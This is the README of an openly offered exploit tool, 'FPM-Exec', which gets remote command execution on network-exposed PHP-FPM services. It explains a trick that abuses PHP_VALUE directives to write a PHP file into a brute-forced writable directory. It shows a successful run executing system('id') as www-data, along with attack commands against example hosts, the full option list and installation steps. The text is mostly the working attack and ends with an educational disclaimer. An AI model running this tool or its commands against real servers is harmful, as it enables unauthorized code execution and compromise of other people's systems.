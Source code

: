 # FPM-Exec: FastCGI PHP-FPM Remote Command Execution

A [won't fix RCE exploit](https://github.com/php/php-src/security/advisories/GHSA-xwv2-pr23-qqmh) for any: 
* PHP-FPM service exposed on a network (or stocket) accessible by the attacker.
* with a writable path by php-fpm process

Features:
* IP/Port or unix://path unix sockets support
* Retry mechanism due to PHP process destruction/creation
* Bruteforce of writable directories
* Wordlist creation based on: 
  * OS writable dirs
  * webserver root directories
  * mount dir path
  * / for chrooted env
  * classic upload directories path
  * PHP session’s path

## Quick start

Example of successfull execution:
```
# python3 fpm-exec.py -t 127.0.0.1:9000 -c "system('id')"
[+] Checking connectivity with 127.0.0.1:9000 with an empty test request
[+] Connexion OK
[+] Response:
Status: 404 Not Found
X-Powered-By: PHP/8.3.2
Content-type: text/html; charset=UTF-8

File not found.

[+] Loaded 1638 writable directories combinations
[+] Using exec technique 'save_handler'
[+] Searching for a writable dir with dummy cmd 'echo 1'
[+] Trying directory /tmp/
[+] !! Got PHP command exec with a test command: echo 1
[+] Tips: for quicker exec next time use option: -d /tmp/
[+] Executing: system('id')
[+] Execution success:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Explainations

As explained by PHP's maintainers, exposing PHP-FPM service on an untrusted network is considered as a missconfiguration (not a vulnerability) and should never happened.

It is well-known that an exposed PHP-FPM may lead to RCE. PHP-FPM is exposed by default on port tcp/9000 and is for now identified as `cslistener` by nmap.

However, to achieve RCE, there is a pre-requisite: the attacker must know an existing PHP file path on the filesystem: example: `/var/www/html/index.php`.

I discovered that php.ini directives through `PHP_ADMIN_VALUE` or `PHP_VALUE` could be abused to create an arbitrary PHP file on a writable directory without preliminar knownledge on the target system. With this trick, we remove the prerequisite to know a PHP file path.

This exploit could fail is if the script cannot find a well-known writable directory to create a PHP file.

Blog post: work in progress...

## Other usages

Set or force a writable directory:
```
# python3 fpm-exec.py -t "192.168.1.2:9000" -c "echo shell_exec('id')" -d "/usr/var/tmp"
```

Enable verbose mode:
```
# python3 fpm-exec.py -t "192.168.1.2:9000" -c "echo shell_exec('id')" -v
```

Usage:
```
# python3 fpm-exec.py -h

usage: fpm-exec.py [-h] -t TARGET [-c CMD] [-d DIRECTORY] [-r RETRY] [-e {save_handler,extension}] [-m TIMEOUT] [-v] [-n]

Execute arbitrary PHP command on exposed php-fpm host

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target to call, host:port or unix://path
  -c CMD, --cmd CMD     PHP command to execute
  -d DIRECTORY, --directory DIRECTORY
                        Writable directory list comma separated
  -r RETRY, --retry RETRY
                        Retry request count
  -e {save_handler,extension}, --exec-technique {save_handler,extension}
                        Execution technique
  -m TIMEOUT, --timeout TIMEOUT
                        Socket timeout in ms
  -v, --verbose         Verbose output
  -n, --no-color        No colored output
```

## Installation

```
git clone https://github.com/darkpills/fpm-exec

cd fpm-exec

pip3 install -r requirements.txt
```

## Disclaimer

The material and information contained on this website do not aim at encouraging any form of illegal activity. They are provided for educational purpose only. The author can not be responsible for any activities consequent to the use of the content presented here. The information are provided "AS IS" with no warranties, and confers no rights. The opinions expressed in this website are my own and feel free to challenge me. 